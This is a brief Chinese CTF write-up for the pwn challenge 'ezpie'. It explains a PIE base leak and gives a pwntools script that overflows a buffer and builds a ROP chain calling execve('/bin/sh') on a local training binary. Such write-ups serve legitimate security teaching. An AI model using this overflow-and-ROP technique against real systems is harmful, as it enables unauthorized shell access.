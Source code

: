 ## ezpie


***

出题人：kadelin

![image-20240413224442106](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413224442106.png)

题目描述：两次读入，一次输入，借助第一吃读入泄露elf_base，接着计算gadget地址构造rop链即可getshell

题目提示：可泄露elf_base

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io = process('./ezpie')

io.recv()
io.send(b'a'*0x28)

io.recv(0x2f)
elf = u64(io.recv(6).ljust(8, b'\x00')) - 0x1189
pop_rdi = elf + 0x00000000000012a3
pop_rsi_r15 = elf + 0x00000000000012a1
pop_rax = elf + 0x0000000000001238
syscall = elf + 0x0000000000001236
binsh = elf + 0x00002008

io.recv()

payload = b'a'*0x58 + p64(pop_rdi) + p64(binsh) + p64(pop_rsi_r15) + p64(0)*2 + p64(pop_rax) + p64(0x3b) + p64(syscall)
io.sendline(payload)


io.interactive()



```







